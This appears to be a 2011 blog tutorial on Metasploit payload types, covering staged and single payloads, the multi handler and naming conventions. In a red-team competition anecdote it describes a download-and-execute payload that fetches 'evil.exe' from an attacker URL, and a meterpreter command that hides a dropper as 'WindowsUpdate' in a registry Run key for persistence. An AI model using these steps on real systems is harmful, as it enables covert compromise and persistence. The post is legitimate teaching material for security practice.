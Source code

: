 = Metasploit Payloads Explained - Part 1
:hp-tags: metasploit, payloads

Payload selection is something that rarely gets talked about in detail. Most PoCs just use calc.exe, netcat, or some kind of socket. The vast majority of Metasploit tutorials, videos and documentation use the _**windows/meterpreter/reverse_tcp**_ payload which is only one of 224 possible payloads. Here is a little disclaimer: While the payloads in Metasploit don't get updated as much as other parts of Metasploit, this is a point in time documentation of them (June 23, 2011) and the payloads available in Metasploit are constantly changing. I challenge you to continue to do a 'show payloads' and see what's new.

If you issue 'show payloads' at the base of Metasploit's console (msf>), it will show you every payload that Metasploit has available. However, exploit module writers can help the user out a bit with their selection by putting special limiters inside of their module. These limiters can be as specific as pointing out a specific payload, or as broad as specifying that it will only work with a 'windows' payload. For a decent example of this in action check out the JBoss 'bshdeployer' exploit module (**modules/exploits/multi/http/jboss_bshdeployer.rb**).

The payloads Metasploit has are broken down into '**staged**', '**stagers**', and '**singles **(also known as Inline)'. The difference between '**staged**' and '**stagers**' is pretty simple, '**staged**' payloads use tiny '**stagers**' to be able to fit into small exploitation spaces. During exploitation the exploit developer often has a very limited amount of memory they can manipulate through the programs inputs that they are exploiting. The stagers go in this space and their only job is to pull down the rest of the '**staged**' payload. The downside to these types of payloads is they require a connection to something that will shovel them the rest of the payload. Inline payloads or '**singles**' don't have this problem. They are self contained and do what they are designed to do without any assistance.

All of the payloads in Metasploit use the one, the only, Multi Handler. I call it that because of how I call it:

```
msf> use multi/handler
```

It is a fitting title though as it is equipped to handle every single payload inside of Metasploit no matter what the architecture or type of connection being made. It knows how to deal with each type of payload because you tell it what to expect, but that doesn't take away from the fact that in this single utility lies the crucial stepping stone for all of Metasploit's exploitation.

The structure of most payloads tell you exactly what they do, but not always. If it says in the description that it's '**Inline**' that means it is a single, if it says '**Stager**' that means it's staged. Lets break a few down of the lesser known ones:

* `cmd/windows/adduser` - This is a single that executes 'net user /add' with the username and password you specify. This one doesn't say that it's 'Inline' but all of the 'cmd/*' or '*/exec' payloads are singles.  
* `osx/armle/vibrate` - A single that when executed on an iPhone, it vibrates.
* `generic/debug_trap` - Trips a debugger if it's attached to the process (sends a single xCC 'break' byte)

One thing that isn't immediately obvious is another marker of staged vs. singles:

```
osx/ppc/shell/reverse_tcp
osx/ppc/shell_reverse_tcp
```

The difference between these two payloads isn't obvious other than the fact that one has an underscore '_' instead of a forward slash '/'. The one with the underscore means it's a single while the other is staged. But the architecture of the naming convention is a bit complicated. Most stick to OS/ARCHITECTURE/TYPE/PAYLOAD where a slash instead of an underscore between TYPE and PAYLOAD would signify the difference we just talked about. But not all payloads stick to this format. You can even go crazy and actually look in the directory: msfdirectory/modules/payloads/ - everything in the singles directory.. hmmm yup, is a single.

Singles are great for fire and forget, I've used as payloads for USB sticks (so the machine didn't have to have a connection to do what I needed) all the way to a pretty sneaky persistence method. One that I used quite often at CCDC was with the payload: '**windows/download_exec**'. The only option this single has is 'URL'. We would put something like http://www.redteam.com/evil.exe and generate the binary:

![](/images/postimages/201106_payloads_1.png)  

(Yes you can use msfpayload, or msfvenom on the command line to generate payloads, but I like to stay inside of msfconsole)  
  
Then set that to auto start when someone logs in with something like:

```
meterpreter > reg setval -k "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" -v "WindowsUpdate" -d "C:\Windows\dropper.exe"
```

Now all we had to do is wait for logins. If they happened to find our evil.exe binary (which download_exec makes it 'a.exe' and puts it in System32), and blocked our IP, all we had to do in replace evil.exe on our web server and wait for it to download the new one. A crude form of persistence, but it worked well.

I'm going to end this with a list of all the payloads... hopefully for all you tab completion lazy bums this might be the first time you've actually have taken a second to look around. In the next post I'll be going into Meterpreter, the BEST payload in my humble-totally-unbiased opinion ;), with a bit of pivoting thrown in for good measure.

![](/images/postimages/201106_payloads_2.png)  